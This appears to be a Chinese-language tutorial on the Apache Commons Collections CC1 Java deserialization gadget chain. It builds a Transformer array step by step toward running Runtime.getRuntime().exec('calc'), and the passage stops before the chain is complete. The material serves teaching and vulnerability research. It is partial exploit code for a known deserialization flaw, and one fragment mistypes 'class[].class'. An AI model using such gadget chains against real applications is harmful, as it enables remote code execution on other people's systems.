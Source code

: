 Apache Commons Collections是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强大的数据结构类型和实现了各种集合工具类。作为Apache开放项目的重要组件，Commons Collections被广泛的各种Java应用的开发。commons-collections组件反序列化漏洞的反射链也称为CC链，自从apache commons-collections组件爆出第一个Java反序列化漏洞后，就像打开了Java安全的新世界大门一样，之后很多Java中间件相继都爆出反序列化漏洞。

CC1链有两条一条是`Transform`链另一条是`LazyMap`链。



首先明确要实现的目标是：

```java
Runtime.getRuntime().exec("calc");
```

因此首先要获得Runtime

```java
Class c = Runtime.class;
```

为什么不用 Runtime.getRuntime() 换成了 Runtime.class ？

前者是一个java.lang.Runtime 对象，后者是一个 java.lang.Class 对象。Class类有实现Serializable接口，所以可以被序列化。

ConstantTransformer可以传一个Runtime类进去，当被遍历时调用transform方法可以返回一个Runtime类，正好作为下一个Transformer的transform方法中的参数。因此Transformer数组第一个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class)
}
```

下一步需要调用getRuntime，它是Runtime里面的方法，前面已经传了Runtime.class，要获取该方法显然只能通过反射，而InvokerTransformer中的transform方法刚好提供了这个功能。

正常反射使用方法

```java
Method f = Runtime.class.getMethod("getRuntime"); 
Runtime r = (Runtime) f.invoke(null);  //获取runtime对象
r.exec("calc"); //调用exec
```

现在已经有了Runtime类，那么考虑传一个getMethod进去，然后通过反射让Runtime类调用getMethod方法，参数即为getRuntime，因此第二个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), //返回Runtime类 
  
  new InvokerTransformer("getMethod",			//反射调用getMethod方法，然后getMethod方法再反射调用getRuntime方法，返回Runtime.getRuntime()方法
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]})
}
```

然后需要调用invoke方法，因此传invoke进去，第三个Transformer如下：

```java
new Transformer[]{
  new ConstantTransformer(Runtime.class), 
  
  new InvokerTransformer("getMethod",
    new Class[]{String.class, class[].class},
    new Object[]{"getRuntime", new Class[0]}),
  
  new InvokerTransformer("invoke", //调用invoke方法
    new Class[]{Object.class, Object[].class},
    new Object[]{null, new Object[0]})
}
```
